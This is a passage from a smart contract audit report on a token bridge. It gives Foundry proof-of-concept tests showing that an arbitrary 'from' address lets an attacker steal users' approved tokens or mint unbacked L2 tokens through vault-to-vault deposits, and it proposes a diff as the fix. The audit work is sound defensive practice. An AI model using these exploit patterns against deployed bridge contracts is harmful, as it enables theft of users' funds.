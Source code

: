 ```solidity
    uint256 userTokenBalance = token.balanceOf(user);
    vm.startPrank(attacker);

    vm.expectEmit(true, true, true, true);
    emit Deposit(user, attackerInL2, userTokenBalance);

    tokenBridge.depositTokensToL2(user, attackerInL2, userTokenBalance);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), userTokenBalance);

    vm.stopPrank();
}

```

Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Infinite Minting of Unbacked Tokens via Vault-to-Vault `depositTokensToL2` Calls

The `depositTokensToL2` function allows the caller to specify the `from` address, which determines the source of the tokens for the transfer.

Since the vault contract grants infinite approval to the bridge (as established in the contract's constructor), an attacker can exploit this by calling `depositTokensToL2` and transferring tokens from the vault back to the vault itself. This creates a scenario where the `Deposit` event can be triggered repeatedly, enabling the minting of unbacked tokens on L2.

Furthermore, the attacker could direct the minted tokens entirely to their own address on L2.

Proof of code

```solidity
function testVaultToVaultInfiniteMinting() public {
    vm.startPrank(attacker);

    uint256 initialVaultBalance = 500 ether;
    deal(address(token), address(vault), initialVaultBalance);

    vm.expectEmit(true, true, true, true);
    emit Deposit(address(vault), address(vault), initialVaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), initialVaultBalance);

    vm.expectEmit(true, true, true, true);
    emit Deposit(address(vault), address(vault), initialVaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), initialVaultBalance);

    vm.stopPrank();
```

[HIGH]: https://img.shields.io/badge/-Critical-d10b0b "Critical"
[MEDIUM]: https://img.shields.io/badge/-Medium-orange "Medium"
[LOW]: https://img.shields.io/badge/-Minor-yellow "Minor"
[INFORMATIONAL]: https://img.shields.io/badge/-Informational-blue "Informational"
[GAS]: https://img.shields.io/badge/-Gas-9cf "Gas"